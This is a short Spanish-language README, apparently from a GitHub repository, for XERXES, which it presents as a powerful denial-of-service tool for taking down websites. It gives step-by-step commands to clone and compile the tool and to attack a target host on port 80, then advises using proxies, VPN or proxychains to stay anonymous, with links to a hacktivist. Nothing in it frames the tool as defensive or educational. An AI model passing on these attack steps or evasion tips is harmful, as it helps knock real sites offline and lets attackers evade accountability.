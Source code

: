 ### XERXES

Que es XERXES un ataque (DOS) potente capaz de tumbar paginas web iniciando con solo un cmd aca abajo.

### CREAR REPO
```
git clone https://github.com/luis498/XERXES.git
```

### ENTRAR
```
cd (Buscalo)
```

### INGRESAR
```
# gcc xerxes.c -o xerxes
```

### ATACAR
```
# ./xerxes www.fakesite.com 80
```

SER ANÓNIMO
USAR PROXY VPN OPENVPN O PROXYCHAINS

https://en.wikipedia.org/wiki/The_Jester_%28hacktivist%29

https://twitter.com/th3j35t3r

http://jesterscourt.cc/

#XERXES CREDITOS

https://github.com/XCHADXFAQ77X/XERXES
